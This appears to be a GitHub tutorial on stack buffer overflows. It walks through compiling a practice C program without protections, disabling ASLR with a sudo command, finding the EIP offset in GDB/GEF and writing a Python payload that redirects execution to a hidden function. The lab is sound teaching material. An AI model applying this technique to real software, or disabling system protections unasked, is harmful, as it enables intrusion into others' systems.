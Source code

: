 # BufferOverflow

<h2>A buffer overflow occurs when a program writes more data to a buffer (a memory area) than it can handle. This can overwrite important data and, in some cases, allow an attacker to execute malicious code.</h2>

![buof](https://github.com/user-attachments/assets/3d8a435a-c7b6-4119-920d-7dd348a57bd7)

<h3>How it happens:</h3>

-Buffer: A reserved area in memory for storing data.

-Overflow: If the program does not check the size of the data, it can overwrite adjacent memory areas.

<h3>Consequences:</h3>

-Data corruption and program crashes.

-Execution of malicious code if an attacker exploits the vulnerability.

<h3>Prevention:</h3>

-Validate data sizes.

-Use safe functions.

-Implement protections like ASLR and DEP.


# Introduction to Buffer Overflow: Invoking Functions via Buffer Overflows

To begin, we'll explore how a buffer overflow can be exploited to invoke a specific function within a program. This process involves manipulating memory to redirect the program's execution flow to a desired function.

To practice this buffer overflow case, we will use a C program called `secret.c` and compile it with the following command:

```bash
gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret
```

Address Space Layout Randomization (ASLR) is a security technique that randomizes memory addresses to protect against certain attacks. 

To check if ASLR is active for our binary `secret`:

```bash
ldd secret
```

![bof1](https://github.com/user-attachments/assets/b9b05657-b76e-42f0-be63-0a7759525270)

ASLR is set to 2 by default. To disable ASLR for easier buffer overflow exploitation, run:
```bash
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```
This change will persist until the next reboot.


The binary `secret` prompts for user input with the message "Input your data:". When the input exceeds the expected number of characters, it triggers a segmentation fault due to a buffer overflow. This occurs because the program does not properly handle or validate the input size, causing it to overwrite adjacent memory areas.

![bof2](https://github.com/user-attachments/assets/e125c018-af9f-452f-9b70-f674d8443765)


To perform the buffer overflow, we will use GDB with GEF (GDB Enhanced Features).
You can find the GEF repository at: https://github.com/hugsy/gef

To run the binary with GDB, use the command:
```bash
gdb ./secret
```

To determine the offset (how many A's you need to input to reach and overwrite the EIP), we will use the command pattern create:

```bash
pattern create
```

![bof3](https://github.com/user-attachments/assets/082c49a1-9cee-42c8-937e-0754cef063f0)

Generate a pattern of characters that we can use to determine the offset when running the program. Instead of using just a series of A's, we’ll run the program with this character pattern.

We would run it with:

```bash
r <<< 'character_pattern'
```
The `<<<` operator is used to provide a string directly as input to a command or program.

Now we can determine how many characters are needed to reach the EIP using the following command:

```bash
pattern offset $eip
```

![bof4](https://github.com/user-attachments/assets/efc4ef08-fe89-4867-ae3e-94fde127d566)

In this case, the offset is 76, so we can run the following command to verify that the characters are correct and that we will overwrite the EIP with the value BBBB:

```bash
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

The **EIP** (Extended Instruction Pointer) is a CPU register that tracks the address of the next instruction to execute, and in a buffer overflow attack, overwriting it allows you to control the execution flow by redirecting it to your chosen code or exploit.

![bof5](https://github.com/user-attachments/assets/678690d1-cab5-4ae4-bf91-ee8b46e88df7)

Additionally, the `checksec` command in GDB checks security features like `NX (No Execute)` protection, which prevents code from running in certain memory regions. It helps you see which security mechanisms are active for a binary.

![bof6](https://github.com/user-attachments/assets/1979e547-2ef8-48ce-89b9-6f41f73d450b)

In our case, we want to execute the function named `secret` that is within the binary. To achieve this, we’ll use the command `p secret` to get the address of the `secret` function. We can then overwrite the EIP with this address to redirect execution to the `secret` function.

```bash
p FUNCTION_NAME
```

![bof7](https://github.com/user-attachments/assets/d9084be8-73a6-403f-8efa-37d090c98736)

Now, we need to format the address in **little-endian** (e.g., `0x080484b6` as `\xb6\x84\x04\x08`) because systems store multi-byte values in this order, ensuring the function is executed correctly.

In our case it will be: 0x5655619d -> \x9d\x61\x55\x56

We will now create the payload using `sys.stdout.buffer.write()` instead of `print()` because it writes the data as raw bytes, ensuring that each byte is preserved exactly as needed. This is crucial for accurately overwriting the EIP with the correct memory address, especially when handling non-printable characters in the exploit.

Next, we'll execute the binary with our crafted payload using the command:

```bash
./secret <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x9d\x61\x55\x56")')
```

This command runs the `secret` binary while injecting the payload directly, aiming to overwrite the EIP with the address of the `secret` function.

![bof8](https://github.com/user-attachments/assets/8cb7ccb8-7d12-4270-b767-9bd6c8cb6e26)

As a result, the function was executed, printing the message "You have exploited the buffer overflow!" before the program crashed with a segmentation fault.

You can also save the payload in a Python script and execute it when running the `secret` binary, simplifying the injection process.

```python3
import sys

secret_func_address = b'\x9d\x61\x55\x56'
payload = b'A' * 76 + secret_func_address

sys.stdout.buffer.write(payload)
```

![bof9](https://github.com/user-attachments/assets/52f80186-b3d2-4e3d-a361-28f8dbb49a01)

